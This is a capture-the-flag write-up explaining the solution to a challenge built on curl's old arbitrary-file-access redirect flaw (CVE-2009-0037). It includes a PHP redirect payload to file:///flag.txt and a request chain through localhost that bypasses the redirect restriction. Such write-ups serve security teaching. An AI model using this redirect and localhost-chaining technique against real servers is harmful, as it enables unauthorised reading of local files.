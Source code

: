 # Solution

This challenge demonstrates 10-year old [curl vulnerability](https://curl.haxx.se/docs/CVE-2009-0037.html).

There are 3 small hints in this challenge:

1. Let me see your URL -> "see url" is "curl"

2. In the HTML source code: `Flag is at /flag.txt`

3. Light gray label saying `Your IP address is X.X.X.X`

One can identify the curl version by sending the request to their own server. Curl version will be exposed as an `User-Agent` HTTP header:

```
User-Agent: curl/7.19.3 (x86_64-unknown-linux-gnu) libcurl/7.19.3 zlib/1.2.11
```

One can easily google that this curl version has Arbitrary File Access vulnerability, [CVE-2009-0037](https://curl.haxx.se/docs/CVE-2009-0037.html).

The payload would be to force curl to redirect to local file `/flag.txt`. Example script:

```
<?php

header('Location: file:///flag.txt');
```

Try it yourself manually:

```
$ curl -v http://dev.oioki.me/curl/
...
< HTTP/1.1 302 Found
...
< Location: file:///flag.txt
```

[http://192.168.1.81:5000/?url=http://dev.oioki.me/curl/]

However, this will not work because redirect following is disabled. Except, if the request is coming from 127.0.0.1.

I feel it as quite an easy guess, because there is a hint #3 about IP address. One needs to add another layer of request:

[http://192.168.1.81:5000/?url=http://localhost:5000/?url=http://dev.oioki.me/curl/]

Then it works and we get a flag.
